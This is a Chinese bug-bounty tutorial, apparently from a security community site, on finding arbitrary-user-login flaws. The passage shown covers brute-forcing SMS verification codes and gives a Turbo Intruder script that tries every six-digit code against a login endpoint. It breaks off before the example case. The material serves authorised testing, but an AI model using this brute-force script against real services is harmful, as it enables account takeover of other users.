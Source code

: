 

# 奇安信攻防社区 - 任意用户登录漏洞挖掘思路

### 任意用户登录漏洞挖掘思路

任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为 src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src 中任意用户登录漏洞的挖掘思路。

# 任意用户登录漏洞挖掘思路

## 前言

任意用户登录漏洞以利用漏洞利用难度低、危害高、奖金高已经成为 src/众测漏洞挖掘中的香饽饽，本文将分享一下众测/src 中任意用户登录漏洞的挖掘思路。

## 1.手机验证码问题导致的任意用户登录

### 1.1 验证码爆破

​ 当登录流程使用手机验证码登录，没有图片验证码/图片验证码可重用/图片验证码简单可识别（可以使用 captcha-killer-modified 插件）且后端没有限制手机验证码验证错误次数时，可以尝试爆破手机验证码登录其他用户。

​ 4 位验证码的爆破老生常谈不再赘述；随着厂商们服务器性能的提高，服务器的 rps 的上升也使得 6 位验证码的爆破越来越快，可以使用如下方法爆破（！！！需留意服务器的 rps 以及测试厂商的注意事项，rps 低的老系统或者厂商禁止批量爆破的项目谨慎使用 6 位验证码的爆破！！！）：

​ 使用 burpsuite 的 Turbo Intruder 插件，编写如下脚本：

```php
import re

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=True
                           )

    for i in range(1000000):                            #生成六位验证码字典
        number = "{:06d}".format(i)
        engine.queue(target.req, number.rstrip())

def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status <404:
        '''res = re.findall('Msg":"(.*?)"',req.response)[0]    
        if len(res)>18:'''                              #六位数的验证码爆破结果展示列太多，可根据实际情况自行筛选展示
        table.add(req)
```

成功案例如下：

